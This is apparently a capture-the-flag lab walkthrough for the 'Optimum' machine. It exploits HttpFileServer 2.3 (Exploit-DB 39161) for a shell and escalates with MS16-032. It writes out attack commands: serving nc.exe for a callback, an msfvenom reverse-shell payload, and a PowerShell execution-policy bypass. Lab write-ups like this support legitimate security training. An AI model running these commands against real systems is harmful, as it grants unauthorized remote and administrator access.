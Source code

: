 # Optimum

### Full port scan

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### HTTPFileServer 2.3 RCE

![](<../../.gitbook/assets/image (99).png>)

* HTTPFileServer 2.3

[https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

* Edit the local IP addr and port number

![](<../../.gitbook/assets/image (80).png>)

* `cp /usr/share/windows-resources/binaries/nc.exe .`
* `python3 -m http.server 80`
* `python2.7 39161 10.10.10.8 80`
* Obtained user shell

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

* Running windows exploit suggester

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

* `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`
* Used [`https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1`](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)
* Changed the payloads to `c:\\users\\kostas\\desktop\\reverse.exe`

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

* `c:\\windows\\sysnative\\windowspowershell\\v1.0\\powershell.exe -ep bypass .\\Invoke-MS16-032-Remote-Shell.ps1`
* Obtained ROOT

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8aac527b-9509-4339-852b-de86325dd20d/Untitled.png)
